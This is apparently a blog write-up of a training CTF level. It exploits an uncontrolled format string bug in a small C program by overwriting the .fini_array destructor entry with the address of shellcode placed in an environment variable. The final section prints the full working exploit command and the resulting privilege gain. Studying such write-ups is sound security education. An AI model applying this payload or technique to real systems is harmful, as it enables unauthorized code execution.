 ```yaml
---
title:  "[CTF] Binary Master Ensign - 2"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-yellow.png)

We'll continue with level2 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). This time it will be another classic issues that needs no introduction - _uncontrolled format strings attacks_. To review the previous level, check the link below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8266
0 packages can be updated.
0 updates are security updates.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   level2
```

NX is disabled and now there *is* a stack canary. But let's not worry about this yet, because we might not even be bothered by the presence of the canary. Let's verify that the stack is executable:
```
$ readelf -lW level2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous level that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

What we have here is a classic uncontrolled format string vulnerability. The value of _buf_ comes from the user and is passed directly as a format string to the _printf_ call. There are so many excellent resources on this type of issues, there is no need for further details. If you're not familiar with it, for a better understanding, please check at least the following two papers. For brevity I will skip most of the details regarding the methodlogy which can be found in those papers.
* team teso - [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* Saif El-Sherei - [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/28476.pdf)

```c
#include <stdio.h>
#include <string.h>

__attribute__((destructor)) void end(void) {
        printf("Bye!\n");
}

void helloworld(char* name) {
        char buf[128];

        strncpy(buf, name, 127);
        buf[127] = '\0';

        printf("Hello ");
        printf(buf);
        printf("!\n");
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        helloworld(argv[1]);

        return 0;
}
```

While we're here looking at the code, see if you notice anything unusual. What about the presence of the destructor function that just prints **"Bye!"**? Couldn't that be done just as a normal _printf_ call at the end of the _main_ function? Maybe it is a hint of some sort. Keep that in mind for later!

## 2 - Exploitation

Using the techniques from the second paper mentioned above, we can read and also overwrite any memory location. Exploitation steps:
* Place a shellcode in an environment variable.
* Find the address of the environment variable on the stack.
* Use the format string vulnerability to overwrite the address of the destructor **end** with the address of our environment variable.

To generate an appropriate shellcode and place it in an environment variable, check the previous post. To find out the address of our environment variable on the stack, again check the previous level.

First thing is to find out the address of the _end_ destructor. IDA Pro shows this really quickly if we check the **_.fini_array_** section. Notice also the permissions of this section. This is important because we want to overwrite the location of _end_ function with an address we control.

<img src="/assets/images/bm1-1.png" alt="ida destructor" class="figure-body">

We can also use Linux tools to get the same information:

```bash
$ readelf -S  level2    
There are 30 section headers, starting at offset 0x9b8:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048148 000148 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048168 000168 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        0804818c 00018c 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ac 0001ac 000080 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804822c 00022c 000074 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080482a0 0002a0 000010 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         080482b0 0002b0 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             080482e0 0002e0 000008 08   A  5   0  4
  [10] .rel.plt          REL             080482e8 0002e8 000030 08   A  5  12  4
  [11] .init             PROGBITS        08048318 000318 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048340 000340 000070 04  AX  0   0 16
  [13] .text             PROGBITS        080483b0 0003b0 000242 00  AX  0   0 16
  [14] .fini             PROGBITS        080485f4 0005f4 000014 00  AX  0   0  4
  [15] .rodata           PROGBITS        08048608 000608 000028 00   A  0   0  4
  [16] .eh_frame_hdr     PROGBITS        08048630 000630 00003c 00   A  0   0  4
  [17] .eh_frame         PROGBITS        0804866c 00066c 0000f0 00   A  0   0  4
  [18] .init_array       INIT_ARRAY      0804975c 00075c 000004 00  WA  0   0  4
  [19] .fini_array       FINI_ARRAY      08049760 000760 000008 00  WA  0   0  4
  [20] .jcr              PROGBITS        08049768 000768 000004 00  WA  0   0  4
  [21] .dynamic          DYNAMIC         0804976c 00076c 0000e8 08  WA  6   0  4
  [22] .got              PROGBITS        08049854 000854 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        08049858 000858 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804987c 00087c 000008 00  WA  0   0  4
  [25] .bss              NOBITS          08049884 000884 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 000884 00002b 01  MS  0   0  1
  [27] .shstrtab         STRTAB          00000000 0008af 000106 00      0   0  1
  [28] .symtab           SYMTAB          00000000 000e68 000480 10     29  45  4
  [29] .strtab           STRTAB          00000000 0012e8 0002a1 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
```

Notice that section 19 - _.fini\_array_ is writable. Exactly what we need. And to dump the section in hex:

```bash
$ readelf --hex-dump=.fini_array level2

Hex dump of section '.fini_array':
  0x08049760 60840408 ad840408                   `.......
```
Second element at 0x08049764 is ad840408, or 0x080484ad - exactly the address of function **end**:
```bash
gdb-peda$ x/wx 0x08049764
0x8049764:      0x080484ad
gdb-peda$ p end
$4 = {<text variable, no debug info>} 0x80484ad <end>
```

Next we need to play a bit with the format string in order to discover how to correctly overwrite the value at address 0x08049764. Again, more explicit details on how to do this can be found in the second referenced paper.  So let's place our shellcode in the EGG environment variable, as we did before and get its address:

```bash
$  /tmp/level2-mod aaa
Hello aaa!
EGG address: 0xffffd8d3
```

**Warning!** If you're testing your exploit in GDB first (and you should), the address of the environment variables on the stack will be slightly different than outside GDB. While in GDB, you can print these addresses  by iterating through the _environ_ array. In my testcase the EGG variable was the 5th element:

```
(gdb) x/s *((char **)environ+4)
0xffffd903:     "EGG=", 'A' <repeats 19 times>
```

This means that in GDB the shellcode begins at **0xffffd903+4** (we add the length of the string _EGG=_ ).

Finding the correct format string involved a bit of trial and error, but in the end I managed to overwrite the address of _end_ destructor with my address.

## 3 - Profit

```
$ /levels/level2 $(printf "\x64\x97\x04\x08JUNK\x65\x97\x04\x08JUNK\x66\x97\x04\x08JUNK\x67\x97\x04\x08")%x%x%x%x%x%149x%n%261x%n%39x%n%256x%n
$ /home/level3/victory
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                            
Subject: Victory!                         
                                          
Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery ensign)
   * the exploit
   
You can now start with level3. If you want, you can log in
as level3 with password  [REDACTED]
```

In the [next level]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %}) we'll deal with more buffer related issues and some logical vulnerabilities as well.

